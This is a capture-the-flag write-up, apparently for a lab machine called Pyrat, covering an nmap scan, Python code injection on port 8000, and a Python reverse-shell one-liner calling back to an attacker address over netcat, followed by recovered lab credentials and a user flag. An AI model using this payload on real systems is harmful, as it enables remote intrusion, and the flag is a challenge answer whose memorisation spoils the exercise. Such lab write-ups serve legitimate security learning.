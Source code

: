 # Pyrat
(Flags can be found at the end of this writeup)
### Pyrat
Initial scan shows port 22 and 8000 open

    p22,8000 -sV -sC -oN scan 10.10.0.182
    Nmap scan report for 10.10.0.182
    Host is up (0.052s latency).
    
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
    |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
    |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
    8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
    |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    |_http-server-header: SimpleHTTP/0.6 Python/3.11.2
    |_http-open-proxy: Proxy might be redirecting requests
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
    |     source code string cannot contain null bytes
    |   FourOhFourRequest, LPDString, SIPOptions: 
    |     invalid syntax (<string>, line 1)
    |   GetRequest: 
    |     name 'GET' is not defined
    |   HTTPOptions, RTSPRequest: 
    |     name 'OPTIONS' is not defined
    |   Help: 
    |_    name 'HELP' is not defined
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port8000-TCP:V=7.94SVN%I=7%D=10/14%Time=670D487D%P=x86_64-pc-linux-gnu%
    SF:r(GenericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20d
    SF:efined\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain
    SF:\x20null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<s
    SF:tring>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20can
    SF:not\x20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'
    SF:\x20is\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\
    SF:x20not\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20stri
    SF:ng\x20cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"
    SF:source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(He
    SF:lp,1B,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"inval
    SF:id\x20syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid
    SF:\x20syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x2
    SF:0code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D
    SF:,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(
    SF:JavaRMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20by
    SF:tes\n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null
    SF:\x20bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\
    SF:x20null\x20bytes\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Port 8000 seems to be a minimal webserver written in python. However, from the scan, error messages such as

    "name 'GET' is not defined"
    "name 'OPTIONS' is not defined"
    "source code string cannot contain null bytes"
    "invalid syntax (<string>, line 1)"

Suggest to me that this connection interprets the input as python code directly, as these are the same error messages provided by the python language. Infact, if I try to execute a netcat connection to my machine, it actually works, like in the figure below:<br />
![image](https://github.com/user-attachments/assets/7ed9ee74-1411-43fd-a9cc-73df4300c489)<br />
We have RCE. Time to spawn a reverse shell; I used the following payload: `__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.90.188 9999 >/tmp/f')`
![image](https://github.com/user-attachments/assets/75a3abb7-4c55-4013-9343-d44299ec0a49)<br />
Using linpeas on the target machine, it reveals some files inside `/opt`, which usually is empty:<br />
![image](https://github.com/user-attachments/assets/3440046d-d233-4944-96aa-9a957f5168a6)<br />
This directory contains a git project. Enumerating a bit the files inside this directory, I found a set of credentials:
![image](https://github.com/user-attachments/assets/d983c2f0-fef9-49bb-a398-90e3bebce124)<br />
`think:_TH1NKINGPirate$_`. So I logged on think's account using ssh. Further system enumeration(still using linpease) led me to this interesting email sent by "root" to "think":<br />
![image](https://github.com/user-attachments/assets/b5941b57-9cd2-4775-95a8-dabd28f959a4)<br />
So probably this RAT(Remote Administration Tool) the project contained in the /opt directory. However there's only a `.git` folder, which doesn't contain the code. In order to find the code, we need to restore the project to an older version, like in the figure below:<br />
![image](https://github.com/user-attachments/assets/48fbbf7a-c7de-4e91-be04-9f318edc9540)<br />




- What is the user flag? `996bdb1f619a68361417cabca5454705`
- What is the root flag?
